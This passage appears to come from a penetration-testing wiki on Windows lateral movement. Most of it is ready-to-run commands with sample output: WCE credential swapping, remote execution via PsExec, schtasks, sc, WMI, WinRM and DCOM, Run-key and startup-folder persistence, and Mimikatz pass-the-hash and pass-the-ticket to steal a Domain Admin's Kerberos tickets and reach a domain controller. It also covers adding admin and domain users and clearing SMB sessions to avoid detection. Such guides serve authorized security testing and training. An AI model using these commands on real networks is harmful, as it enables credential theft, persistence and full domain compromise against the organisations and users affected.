  WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
  Use -h for help.

  Changing NTLM credentials of current logon session (00024E1Bh) to:
  Username: testuser
  domain: amplialabs
  LMHash: 01FC5A6BE7BC6929AAD3B435B51404EE
  NTHash: 0CB6948805F797BF2A82807973B89537
  NTLM credentials successfully changed!


  C:\Users\test> 

 
* Run PSExec normally

 ::

  psexec \\remotecomputer <commandname>

 If you omit a user name, the process will run in the context of your account on the remote system, but will not have access to network resources (because it is impersonating). Specify a valid user name in the Domain\User syntax if the remote process requires access to network resources or to run in a different account. Since, we are omitting the username, it would run in the context of the current username ( The one we have changed with the help of WCE )


Task Scheduler
--------------

If you are the administrator of the remote machine and using runas /netonly, we can utilize AT to run commands remotely. Using AT, a command to be run at designated time(s) as SYSTEM.

Examples
^^^^^^^^

::

 AT \\REMOTECOMPUTERNAME 12:34 "command to run"

::

 AT \\REMOTECOMPUTERNAME 12:34 cmd.exe \c "command to run"
 
 "command to run" can be web-delivery string or powershell empire string.

If we need to delete the AT jobs, we can use

::

 AT \\REMOTECOMPUTERNAME id /delete /yes

However, sometimes doing it remotely, we need to figure out the time of the remote computer, we can utilize NET TIME

::

 NET TIME \\REMOTECOMPUTERNAME

Scheduled Tasks
---------------

`Schtasks <https://technet.microsoft.com/en-us/library/cc725744(v=ws.11).aspx>`_ Schedules commands and programs to run periodically or at a specific time. Adds and removes tasks from the schedule, starts and stops tasks on demand, and displays and changes scheduled tasks. Schtasks replaces At.exe, a tool included in previous versions of Windows. Although At.exe is still included in the Windows Server 2003 family, schtasks is the recommended command-line task scheduling tool.

::

 schtasks /create /sc <ScheduleType> /tn <TaskName> /tr <TaskRun> [/s <Computer> [/u [<Domain>\]<User> [/p <Password>]]] [/ru {[<Domain>\]<User> | System}] [/rp <Password>] [/mo <Modifier>] [/d <Day>[,<Day>...] | *] [/m <Month>[,<Month>...]] [/i <IdleTime>] [/st <StartTime>] [/ri <Interval>] [{/et <EndTime> | /du <Duration>} [/k]] [/sd <StartDate>] [/ed <EndDate>] [/it] [/z] [/f]

 /sc <ScheduleType>               : Specifies the schedule type. Valid values are MINUTE, HOURLY, DAILY, WEEKLY, MONTHLY, ONCE, ONSTART, ONLOGON, ONIDLE.
 /tn <TaskName>                   : Specifies a name for the task. 
 /tr <TaskRun>                    : Specifies the program or command that the task runs. Type the fully qualified path and file name of an executable file, script file, or batch file. If you omit the path, schtasks assumes that the file is in the SystemRoot\System32 directory.
 /s <Computer>                    : Schedules a task on the specified remote computer. Type the name or IP address of a remote computer (with or without backslashes). The default is the local computer.
 /u [<Domain>\]<User>             : Runs this command with the permissions of the specified user account. The default is the permissions of the current user of the local computer. 
 /p <Password>                    : Provides the password for the user account specified in the /u parameter. If you use the /u parameter, but omit the /p parameter or the password argument, schtasks prompts you for a password and obscures the text you type
 /ru {[<Domain>\]<User> | System} : Runs the task with permissions of the specified user account. By default, the task runs with the permissions of the current user of the local computer, or with the permission of the user specified by the /u parameter, if one is included. The /ru parameter is valid when scheduling tasks on local or remote computers.
 /rp <Password>                   : Provides the password for the user account that is specified in the /ru parameter. If you omit this parameter when specifying a user account, SchTasks.exe prompts you for the password and obscures the text you type. Do not use the /rp parameter for tasks run with System account credentials (/ru System). The System account does not have a password and SchTasks.exe does not prompt for one.


Examples
^^^^^^^^

* Create new task and execute it

 ::

   schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe /sc once /st 00:00 /S host /RU System
   schtasks /run /tn foobar /S host

* Delete the task after it is executed

 ::

  schtasks /F /delete /tn foobar /S host


Service Controller (SC)
-----------------------

Communicates with the Service Controller and installed services. SC.exe retrieves and sets control information about services. Armitage Hacker has mentioned this at his blog `Lateral Movement with High Latency <https://blog.cobaltstrike.com/2014/04/30/lateral-movement-with-high-latency-cc/>`_ 

Create a new service
^^^^^^^^^^^^^^^^^^^^

Create a new service named foobar

::

  sc \\host create foobar binpath= “c:\windows\temp\foobar.exe”

Start the service
^^^^^^^^^^^^^^^^^

::

  sc \\host start foobar


The sc command requires an executable that responds to Service Control Manager commands. If you do not provide such an executable, your program will run, and then immediately exit. 

Delete the service
^^^^^^^^^^^^^^^^^^

Delete the service after it runs 

::

  sc \\host delete foobar

Remote Registry
---------------

A command to be run or DLL to be loaded when specific events occur, such as boot or login or process execution, as active user or SYSTEM.

**Examples**

Add an entry
^^^^^^^^^^^^

::

 REG ADD \\REMOTECOMPUTERNAME\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v myentry /t REG_SZ /d "command to run"
 
Command will run every time a user logs in as the user.

Query the remote registry
^^^^^^^^^^^^^^^^^^^^^^^^^

::

 REG QUERY \\REMOTECOMPUTERNAME\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v myentry

Delete the remote registry
^^^^^^^^^^^^^^^^^^^^^^^^^^

::

 REG DELETE \\REMOTECOMPUTERNAME\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v myentry


Remote File Access
------------------

We can copy a launcher.bat file with powershell empire and drop it Startup folder, so that it executes every time a user logs in as a user.

Example
^^^^^^^

::

 xcopy executabletorun.exe "\\REMOTECOMPUTERNAME\C$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\launcher.bat"

WinRM
-----

Windows Remote Management (WinRM) is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP. On the backend it's utilizing WMI, it can be thought of as an HTTP based API for WMI. WinRM will listen on one of two ports: 5985/tcp (HTTP) and 5986/tcp (HTTPS)

If one of these ports is open, WinRM is configured and you can try entering a remote session.

Enabling PS-Remoting
^^^^^^^^^^^^^^^^^^^^
 
Configure the remote machine to work with WinRM. We need to run the below command from elevated powershell prompt 

::

  PS C:\Windows\system32> Enable-PSRemoting -Force
  WinRM already is set up to receive requests on this machine.
  WinRM has been updated for remote management.
  Created a WinRM listener on HTTP://* to accept WS-Man requests to any IP on this machine.
  WinRM firewall exception enabled.

Testing the WinRM Connection
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

We can use the Test-WSMan function to check if target is configured for WinRM. It should return information returned about the protocol version and wsmid

:: 

  PS C:\> Test-WSMan XXXX-APPS03.example.com
  wsmid           : http://schemas.dmtf.org/wbem/wsman/identity/1/wsmanidentity.xsd
  ProtocolVersion : http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd
  ProductVendor   : Microsoft Corporation
  ProductVersion  : OS: 0.0.0 SP: 0.0 Stack: 2.0

Adding Trusted Host in WinRM
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Add Winrm Trusted Host in Windows 

::

 winrm set winrm/config/client @{TrustedHosts="RemoteComputerName"}

PowerShell Invoke-Command
^^^^^^^^^^^^^^^^^^^^^^^^^ 

Execute commands using Powershell Invoke-Command on the target over WinRM. 

:: 

  PS C:\> Invoke-Command -ComputerName XXXX-APPS03.xxx.example.com -ScriptBlock {ipconfig /all}

  Windows IP Configuration

   Host Name . . . . . . . . . . . . : XXXX-Apps03
   Primary Dns Suffix  . . . . . . . : xxx.example.com
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : xxx.example.com
                                       example.com

Interactive PowerShell session
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  PS C:\> Enter-PSSession -ComputerName XXXX-APPS03.xxx.example.com
  [XXXX-APPS03.xxx.example.com]: PS C:\Users\dummyuser\Documents> whoami
  example.com\dummyuser

The above commands are executed using runas /netonly if you want to run it with the credentials we can use 

:: 

 -credential domainname\username switch

Disable Powershell Remoting
^^^^^^^^^^^^^^^^^^^^^^^^^^^

Also, if you want to disable the psremoting/ WinRM, you can utilize `Disable-PSRemoting <https://msdn.microsoft.com/en-us/powershell/reference/4.0/microsoft.powershell.core/disable-psremoting>`_ . However, if you get

::

 PS C:\Windows\system32> Disable-PSRemoting
 WARNING: Disabling the session configurations does not undo all the changes made by the Enable-PSRemoting or
 Enable-PSSessionConfiguration cmdlet. You might have to manually undo the changes by following these steps.
     1. Stop and disable the WinRM service.
     2. Delete the listener that accepts requests on any IP address.
     3. Disable the firewall exceptions for WS-Management communications.
     4. Restore the value of the LocalAccountTokenFilterPolicy to 0, which restricts remote access to members of the Administrators group on the computer.

then follow the `How to revert changes made by Enable-PSRemoting? <https://blogs.technet.microsoft.com/bshukla/2011/04/27/how-to-revert-changes-made-by-enable-psremoting/>`_

Scott Sutherland has written `PowerShell Remoting Cheatsheet <https://blog.netspi.com/powershell-remoting-cheatsheet/>`_ which can be referred too.

WMI
---

As per the TechNet article `Windows Management Instrumentation <https://msdn.microsoft.com/en-us/library/aa394582(v=vs.85).aspx>`_ (WMI) is the infrastructure for management data and operations on Windows-based operating systems. You can write WMI scripts or applications to automate administrative tasks on remote computers.

Local code execution
^^^^^^^^^^^^^^^^^^^^

WMI Process Create: The Win32_Process class can be called via WMI to query, modify, terminate, and create running processes.

::
  
  wmic path win32_process call create "calc.exe"
  Executing (win32_process)->create()
  Method execution successful.
  Out Parameters:
  instance of __PARAMETERS
  {
        ProcessId = 2616;
        ReturnValue = 0;
  };

The command returns the ProcessID and the ReturnValue (0 abcning no errors)

Remote code execution
^^^^^^^^^^^^^^^^^^^^^

We can use runas command to authenticate as a different user and then execute commands using wmic or use

::

  wmic /node:computername /user:domainname\username path win32_process call create "**empire launcher string here**"

instead of computername, we can specify textfile containing computernames and specify using wmic /node:@textfile

Refer Rop-Nop blog `Part3: Wmi and winrm <https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/>`_

DCOM 
----

The below is as per my understanding (I might be wrong), if so, please do correct me. After reading `Lateral Movement Using the MMC20.Application COM Object <https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/>`_ and `Lateral Movement Via DCOM Round 2 <https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/>`_ I believe there are three ways to do lateral movement by using DCOM

DCOM applications via MMC Application Class (MMC20.Application)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

This COM object allows you to script components of MMC snap-in operations. there is a method named “ExecuteShellCommand” under Document.ActiveView.

::

  PS C:\> $com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","IPAddress"))
  PS C:\> $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\calc.exe",$null,$null,7)

For Empire

::

  $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe",$null,"-enc DFDFSFSFSFSFSFSFSDFSFSF < Empire encoded string > ","7")

Tanoy has written a simple wrapper/ function `Invoke-MMC20RCE.ps1 <https://raw.githubusercontent.com/n0tty/powershellery/master/Invoke-MMC20RCE.ps1>`_ which might be useful.

DCOM via ShellExecute
^^^^^^^^^^^^^^^^^^^^^

::

  $com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"IPAddress")
  $obj = [System.Activator]::CreateInstance($com)
  $item = $obj.Item()
  $item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","C:\windows\system32",$null,0)
  ^ The above should run a calc

DCOM via ShellBrowserWindow
^^^^^^^^^^^^^^^^^^^^^^^^^^^

.. Note ::  Windows 10 Only, the object doesn't exists in Windows 7

::

  $com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"IPAddress")
  $obj = [System.Activator]::CreateInstance($com)
  $obj.Application.ShellExecute("cmd.exe","/c calc.exe","C:\windows\system32",$null,0)
  ^ The above should run a calc


All the above three method, assumes that either you are running the commands as administrator of the remote machine. And you have achieved it either by using runas /netonly or logging in as that user.


While executing the above if you get the below error, it means, we do not have access to execute object remotely which results in “Access Denied”:

::

  $com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"IPAddress")
  $obj = [System.Activator]::CreateInstance($com)
  Exception calling "CreateInstance" with "1" arguement(s) "Retrieving the COM class factory for remote component with CLSID {} from machine IPAddress failed due to the following error 80070005.

  At line:1 char:1
  + $obj = [System.Activator]::CreateInstance($com)
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    +CategoryInfo             : NotSpecified: (:), MethodInvocationException
    +FullyQualifiedErrorID    : UnauthorizedAccessException


Mimikatz PTH/ PTT
-----------------

Microsoft `Advanced Threat Analytics Attack Simulation Playbook <https://gallery.technet.microsoft.com/Advanced-Threat-Analytics-8b0a86bc>`_ has provided examples for Mimikatz PTH, PTT. 

If we do not have plaintext credentials, we can use NTLM hashes to get a shell

Pass the Hash
^^^^^^^^^^^^^

Using a technique called Overpass-the-Hash we can take the NTLM hash and use it to obtain a Ticket Granting Ticket (TGT) via Kerberos\\ Active Directory. With a TGT you can masquerade as the administrative user and access any domain resource that admin user has access to. 

::

  Mimikatz.exe “privilege::debug” “sekurlsa::pth /user:[username] /ntlm:[ntlm hash] /domain:[domainname]” “exit”

A new command prompt session opens. This new command prompt injected Admin user credentials into it!

This can be verified by checking 
 
* If we have access to the C drive of the remote machine

 ::

  dir \\remote-machine\c$

* Inspect tickets in Overpass-the-hash command prompt: From the new command prompt that opened from the Overpass-the-hash attack, execute the following:

 :: 

  klist

We should be able to see the ticket of the admin user.
 

Pass the ticket
^^^^^^^^^^^^^^^

Let's assume, we got credentials of Local Admin A, by which we can login in to the machine on which Domain Admin is logged on. We would utilize pass the ticket for this

* Harvest Credentials

* Execute Mimikatz against Admin-PC ( on which domain admin is logged on )

 From the new command prompt, running in the context of admin user, go to the part of the filesystem where Mimikatz is located from that library. Run the following commands:

 ::

   xcopy mimikatz \\admin-pc\c$\temp
  
 Next, execute MimiKatz remotely to export all Kerberos tickets from Admin-PC:

 ::
   
   psexec.exe \\admin-pc -accepteula cmd /c (cd c:\temp ^& mimikatz.exe “privilege::debug”   “sekurlsa::tickets /export” ^& “exit”)

 Copy these tickets back to Victim-PC:

 ::

   xcopy \\admin-pc\c$\temp c:\temp\tickets


 We successfully executed Mimikatz remotely, exporting all Kerberos tickets from Admin-PC. We copied back the results to Victim-PC, and now has one of the Domain Admin credentials without having to exploit his computer!

* Locate the Domain Admin user TGT
    
 Locate the kirbi files which are not Domain Admin user (i.e. “ADMIN-PC$”). Delete those and keep the Domain Admin user tickets.  

* Pass-the-Ticket

 We can pass the Domain Admin User tickets, literally, into memory and use them to gain access to resources as if you were Domain Admin. The attacker is ready to import them into Victim-PC’s memory, to get the credentials to access sensitive resources.

 From an elevated command prompt, where Mimikatz is located on the filesystem, execute the following:

 ::
        
   mimikatz.exe “privilege::debug” “kerberos::ptt c:\temp\tickets” “exit”

 Ensure that the DomainAdminUser@krbtgt-Domainname tickets were successfully imported. Now, let’s validate that the right tickets are in the command prompt session.

* Validate the ticket was imported

 Execute the following in the same elevated command prompt:

 :: 

   klist

 The attacker now successfully imported the harvested ticket into the session, and will now leverage their new privilege and access to access the domain controller’s C drive

* Access contents of dc1\c$ with DomainAdminUser credential

 Execute the following in the same command prompt to which the tickets were just imported.

 ::

    dir \\dc1\c$

 The attacker is now, for all intents and purposes, DomainAdminUser, in the digital world. Only administrators should be able to access the root of the domain controller. The attacker is using legitimate credentials, can access legitimate resources and executing legitimate executables.


xfreerdp/ Remote Desktop
------------------------

rdesktop
^^^^^^^^

::

  rdesktop IPAddress

Remote Desktop with 90% Screen

::

 rdesktop -g 90% 
 rdesktop -f : for Full screen. Fullscreen mode can be toggled at any time using Ctrl-Alt-Enter.

Pass the Hash with Remote Desktop
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If we have a hash of a user, we can use xfreerdp to have remote desktop

::

  xfreerdp /u:user /d:domain /pth:hash /v:IPAddress

More information refer `Passing the Hash with Remote Desktop <https://www.kali.org/penetration-testing/passing-hash-remote-desktop/>`_ 


.. Todo ::

   ----dsquery !! SubMSI ? MSUtil to use RCE?
   ----Any commands if net, or powershell is blocked? or PV/ BH is caught? 

.. _useful-stuff:

Useful Stuff
============

Add/ remove/ a local user
-------------------------

:: 

 net user /add [username] [password]

::

 net user John xxxxxxxxx /ADD

 C:\>net user /add John *
 Type a password for the user: 
 Retype the password to confirm:
 The command completed successfully.

Add a domain user
-----------------

::

 net user username password /ADD /DOMAIN

Add / remove a local user to administrator group
------------------------------------------------

::

 net localgroup administrators [username] /add

Change local user password
^^^^^^^^^^^^^^^^^^^^^^^^^^

::

 net user username newpassword

Accessing Remote machines
--------------------------

Windows
^^^^^^^

Setup an SMB connection with a host

::
 
  PS C:\> net use \\DC.xxxxxxxx.net
  The command completed successfully.

Check for access to admin shares ("C$", or "ADMIN$"), if we are admin:

::

  PS C:\> dir \\DC.xxxxxxxxxx.net\C$\Users

  Directory: \\DC.xxxxxxxx.net\C$\Users 
  
  Mode                LastWriteTime     Length Name
  ----                -------------     ------ ----
  d----        20.11.2016     09:35            axx.xxxxxx
  d----        21.11.2010     06:47            Administrator
  d-r--        14.07.2009     06:57            Public  


If we are not admin, we might get access denied:

::

  PS C:\> dir \\DC.xxxxxxxxxx.net\C$\Users
  Access is denied.
  
Check your net connections: 

::
 
  PS C:> net use
  New connections will be remembered.  
  
  Status       Local     Remote                    Network 
  
  -------------------------------------------------------------------------------
  OK                     \\DC.xxxxxxxx.net\IPC$   Microsoft Windows Network
  The command completed successfully.
 
However, if administrator on DC.xxxxx.net runs a net session command, the connections would be detected. For that issue 

::
 
  net use /delete *
 
On windows, after running this, if we execute
 
::
 
  //IPAddress/C$

we should be able to view the directory via windows explorer.

Linux
^^^^^

smbclient: We can use smbclient to access the remote computer file-system.

:: 
   
   smbclient -L hostname -U domainname\\username

   -L|--list This option allows you to look at what services are available on a server. You use it as smbclient -L host and a list should appear. The -I option may be useful if your NetBIOS names don't match your TCP/IP DNS host names or if you are trying to reach a host on another network.


The below will drop you in to command line

::

  smbclient \\\\hostname\\C$ -U domainname\\username
  (After entering the password)

  smb: \> ls
  smb: \> ls
  $Recycle.Bin                      DHS        0  Wed Nov 30 20:00:40 2016
  .rnd                                A     1024  Mon Jul 27 13:51:24 2015
  Boot                              DHS        0  Mon Jul 27 14:16:53 2015
  bootmgr                          AHSR   333257  Sat Apr 11 21:42:12 2009
  BOOTSECT.BAK                      ASR     8192  Wed Jul 21 09:01:52 2010
  Certificate                         D        0  Sun Jun 23 17:20:48 2013
  Config.Msi                        DHS        0  Thu Feb 16 01:49:59 2017
  cpqsprt.trace                       A     8004  Wed Jul 21 08:59:57 2010
  cpqsystem                           D        0  Wed Jul 21 08:32:58 2010
  csv.err                             A       90  Sun May 20 15:35:38 2012
  csv.log                             A      278  Sun May 20 15:35:38 2012
  Documents and Settings            DHS        0  Sat Jan 19 19:53:20 2008
  Program Files                      DR        0  Thu Sep  8 16:24:36 2016
  Program Files (x86)                DR        0  Tue Nov 22 21:28:01 2016
  ProgramData                        DH        0  Thu Feb  9 16:51:52 2017
  Rename.bat                          A     1406  Wed Oct 26 15:11:19 2011
  System Volume Information         DHS        0  Thu Feb 16 01:49:56 2017
  temp                                D        0  Fri Aug  9 17:16:55 2013
  Users                              DR        0  Wed Nov 30 20:00:08 2016
  Windows                             D        0  Wed Feb 15 23:18:12 2017

**Recursively download a directory using smbclient?**

::

    smbclient '\\server\share'
    mask ""
    recurse ON
    prompt OFF
    cd 'path\to\remote\dir'
    lcd '~/path/to/download/to/'
    mget *

or mount the share directly

::

 mount -t cifs -o username=<share user>,password=<share password>,domain=example.com //WIN_PC_IP/<share name> /mnt
.. _appendix-I-interesting-stories:

Appendix-I : Interesting Stories
================================

Targeting Domain Administrator!
-------------------------------

* RastaMouse talks about his experiences in a blog on `PSExec Much? <https://rastamouse.me/2017/06/psexec-much/>`_ Here he starts with a domain user and make his way to Domain Administrator account utilizing Powerview/ Invoke-LoginPrompt.

* Sean Metcalf has written a awesome blog on `Attack Methods for Gaining Domain Admin Rights in Active Directory <https://adsecurity.org/?p=2362>`_

* Fuzzy Security has written a amazing blog showing the journey of Local Administrator to a Domain User to Domain Administrator in his blog `Windows Domains, Pivot & Profit <http://www.fuzzysecurity.com/tutorials/25.html>`_

* Nikhil SamratAshok Mittal has written a blog on `Getting Domain Admin with Kerberos Unconstrained Delegation <http://www.labofapenetrationtester.com/2016/02/getting-domain-admin-with-kerberos-unconstrained-delegation.html>`_ Sean Metcalf has written `Active Directory Security Risk #101: Kerberos Unconstrained Delegation (or How Compromise of a Single Server Can Compromise the Domain) <https://adsecurity.org/?p=1667>`_


Others
------

* Identify High Risk Windows Assets : Scott Sutherland writes a powershell way and `A Faster Way to Identify High Risk Windows Assets <https://blog.netspi.com/a-faster-way-to-identify-high-risk-windows-assets>`_ Active Directory stores the operating system version and service pack level for every Windows system associated with the domain.  The information can be used during penetration tests to target systems missing patches like MS08-67, or identification of high risk assets.

* `Windows Exploit Suggestor <https://github.com/GDSSecurity/Windows-Exploit-Suggester>`_ tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins.

SMBRelay
^^^^^^^^

* Scott Sutherland has written `Executing SMB Relay Attacks via SQL Server using Metasploit <https://blog.netspi.com/executing-smb-relay-attacks-via-sql-server-using-metasploit/>`_

* To lure the victim, so that they give their hashes for cracking/ relaying Karl Fosaaen has written a blog on `10 Places to Stick Your UNC Path <https://blog.netspi.com/10-places-to-stick-your-unc-path/>`_

* By default PowerShell is configured to prevent the execution of PowerShell scripts on Windows systems which can be a hurdle for penetration testers, sysadmins, and developers. Scott Sutherland has written `15 Ways to Bypass the PowerShell Execution Policy <https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/>`_

Windows Privilege Escalation
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* `Windows Privilege Escalation Part 1: Local Administrator Privileges <https://blog.netspi.com/windows-privilege-escalation-part-1-local-administrator-privileges/>`_

* `Windows Privilege Escalation Part 2: Domain Admin Privileges <https://blog.netspi.com/windows-privilege-escalation-part-2-domain-admin-privileges/>`_

* `5 Ways to Find Systems Running Domain Admin Processes <https://blog.netspi.com/5-ways-to-find-systems-running-domain-admin-processes/>`_

.. disqus::
